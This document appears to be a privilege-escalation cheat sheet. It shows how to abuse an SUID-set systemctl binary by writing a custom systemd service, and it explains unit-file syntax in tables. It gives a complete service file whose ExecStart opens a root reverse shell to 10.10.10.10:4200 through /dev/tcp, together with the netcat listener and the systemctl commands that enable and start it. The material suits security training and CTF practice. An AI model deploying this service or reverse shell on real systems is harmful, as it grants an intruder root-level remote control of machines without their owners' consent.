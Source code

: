 # Create a linux service
You gained access to a box and noticed that the `systemctl` binary has the SUID bit set.

Complete documentation: [Systemd.io]("https://systemd.io")

## File Syntax
A service file consists of 3 necessary sections `[unit]`, `[Service]`, and `[Install]`

### [Unit]
Contains metadata

| Field | Description |
| ----- | ----------- |
| `Description` | Title of the service |
| `After` | Start service after another target service |
| `Before` | Opposite of After |

### [Service]
Details about execution and termination of service

| Field | Description |
| ----- | ----------- |
| `ExecStart` | Command executed when the service starts |
| `ExecReload` | Optionally specify how a service restarts |
| `Type` | Options are: `simple`, `exec`, `forking`, `oneshot`, `dbus`, `notify`' `idle` |
| `Restart` | Options are: `no`, `on-success`, `on-failure`, `on-abnormal`, `on-watchdog`, `on-abort`, `always` |

### [Install]
Handles the installation

| Field | Description |
| ----- | ----------- |
| `WantedBy` | Similar to before / after but specifies systemd-eqivalent run levels. `default.target` is common. |
| `RequiredBy` | Similar to WantedBy, but will fail if not found |

## Example service
This is done by creating a new file with the `.service` extension:

1. Create a file called `root.service`
```sh
[unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/4200 0>&1'

[Install]
WantedBy=multi-user.target
```

2. Start your listener:
```sh
nc -lvnp 4200
```

3. Enable and start the malicious service:
```sh
systemctl enable /tmp/root.service
systemctl start root
```
